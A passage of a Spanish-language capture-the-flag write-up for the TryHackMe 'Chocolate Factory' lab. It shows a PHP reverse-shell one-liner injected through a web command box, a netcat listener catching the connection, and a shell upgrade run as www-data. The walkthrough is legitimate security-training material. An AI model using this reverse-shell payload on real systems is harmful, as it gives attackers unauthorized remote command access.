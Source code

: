 ![](/assets/posts/20220927/img05.png)

Mirad con atención que hay una de las flags allí (*Enter the key you found!*).

Visto lo anterior, vamos a ejecutar una shell reversa basada en php. Yo utilicé la siguiente:

```console
php -r '$sock=fsockopen("10.18.xx.xx",4321);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Abrimos un nuevo Terminal y ponemos a escuchar **netcat**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/ChocolateFactory]
└─$ nc -lvnp 4321
```

Copiamos el comando de php en la caja y le damos a Execute ...

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/ChocolateFactory]
└─$ nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.18.xx.xx] from (UNKNOWN) [10.10.31.2] 54208
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Bingo, estamos dentro. Toca trastear. Lo primero es upgradear la shell.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/ChocolateFactory]
└─$ nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.18.xx.xx] from (UNKNOWN) [10.10.31.2] 54208
/bin/sh: 0: can't access tty; job control turned off
$ script -qc /bin/bash /dev/null
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

www-data@chocolate-factory:/var/www/html$ 
```
